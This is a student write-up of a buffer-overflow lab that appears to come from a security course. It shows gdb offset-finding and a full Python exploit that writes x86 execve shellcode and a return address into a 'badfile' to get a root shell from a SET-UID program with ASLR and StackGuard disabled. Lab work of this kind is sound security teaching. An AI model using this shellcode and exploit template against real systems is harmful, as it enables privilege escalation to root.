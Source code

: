 # Week 5
## Task 1

After compiling:
```bash
$ make
```

we executed the a32.out or a64.out:
```bash
$ ./a32.out
$ ./a64.out
```

and a new shell appears in the terminal.

![a32.out execution](../Week5/img/task_1_1.PNG)

![a64.out execution](../Week5/img/task_1_2.PNG)

## Task 2 & 3

In this task, we use this vulnerable SET-UID root program to gain access to the root shell. Since, we have disabled Address Space Layout Randomization, we know that our process will be stored  in  around the same memory always in  the  stack. So in order to find the address of the running program in the memory, we compile the program in debug mode. Debugging will help us run our desired program.

So,  we  first  compile  the  program  in  the  debug  mode (-g  option),  with  the  StackGuard  counter-measure disabled and Stack executable and then run the program in debug mode using gdb:

![task_3_1](../Week5/img/task_3_1.png)

In gdb, we set a breakpoint on the bof function using b bof, and then start executing the program:

![task_3_2](../Week5/img/task_3_2.png)

The program stops inside the bof function due to the breakpoint created. The stack frame values for this function will be of our interest and will be used to construct the badfile contents. Here, we print out the ebp and buffer values, and also find the difference between the ebp and start of the buffer in order to find the return address value’s address. The following screenshot shows the steps:

![task_3_3](../Week5/img/task_3_3.png)

Here, we see that the frame pointer is `0xffffcf88` and hence the return address must be stored at `0xffffcf88 + 4`, and the first address we can jump to is `0xffffcf88 + 8`. Also, in order for the return address to point at our code, we need to know the location to store the return address in the input so  that it is stored in the return address  field  in  the  stack.  This  can  be found out by finding the difference between the return address and buffer start address, because our input is copied to the buffer from the start. We also know that return address will be 4 bytes above where the ebp points.

In the next step, we modify the exploit.py file to enter the new return address:

```python=
#!/usr/bin/python3
import sys
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
##################################################################

# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffcf1c + start
offset = (0xffffcf88 - 0xffffcf1c) + 4

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)

```

Next, we first make the python program executable and run the exploit.py file to generate the badfile. Then we run the vulnerable SET-UID program that uses this badfile as input and copies the contents of the file  in the stack, resulting in a buffer overflow. The `#` sign indicates that we have successfully obtained the root privilege by entering into the root shell. The effective user ID is seen to be that of the root (0):

![task_3_4](../Week5/img/task_3_4.png)

Hence, we have successfully performed the buffer overflow attack and gained root privileges.
